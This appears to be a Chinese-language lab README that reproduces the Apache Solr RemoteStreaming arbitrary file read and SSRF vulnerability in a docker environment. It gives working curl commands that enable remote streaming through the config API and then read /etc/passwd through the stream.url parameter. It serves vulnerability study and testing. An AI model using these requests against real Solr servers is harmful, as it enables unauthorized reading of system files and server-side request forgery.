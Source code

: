 # Apache Solr RemoteStreaming 任意文件读取和SSRF漏洞

Apache Solr 是一个开源的搜索服务器。当 Apache Solr 未启用身份认证时，攻击者可以构造请求来启用特定配置，从而可能导致服务器端请求伪造（SSRF）或任意文件读取漏洞。

参考链接：

- <https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ>

## 环境搭建

执行如下命令启动 Apache Solr 8.8.1 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8983/` 即可看到 Apache Solr 的管理界面。

## 漏洞复现

首先，访问`http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`获取数据库名：

![](1.png)

发送以下请求来修改 `demo` 核心的配置并启用 `RemoteStreaming`：

```
curl -i -s -k -X $'POST' \
     -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
     $'http://your-ip:8983/solr/demo/config'
```

![](2.png)

然后，你可以通过 `stream.url` 参数读取任意文件：

```
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![](3.png)
